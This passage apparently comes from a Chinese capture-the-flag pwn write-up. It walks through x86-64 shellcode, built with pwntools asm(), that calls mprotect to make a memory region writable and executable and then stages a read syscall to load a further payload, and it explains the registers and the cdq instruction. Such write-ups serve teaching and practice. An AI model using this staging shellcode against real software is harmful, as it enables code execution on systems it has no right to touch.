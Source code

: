 ```plain
shell1=asm('''
    shl edi,12
    mov dx,0x7
    mov ax,10
    syscall
    cdq
    mov esi,edi
    xor edi,edi
    xor eax,eax
    syscall
''')
```

[![](assets/1708654729-b9c418a2956a6c76cde913e5947739c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104451-2f9bf318-d063-1.png)

```plain
先开个权限，这三行就是
rax:a
rdi：0x2333 左移 3 位-->0x2333000
rsi: 0x2333
rdx：7
mprotect(0x2333000,0x2333,7)
```

然后写 read

[![](assets/1708654729-253fceeede92c9e536c6fd802be5c995.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104515-3debbe6c-d063-1.png)  
cdq：把 EDX 的所有位都设成 EAX 最高位的值。也就是说，当 EAX <80000000, EDX 为 00000000；当 EAX >= 80000000，EDX 则为 FFFFFFFF
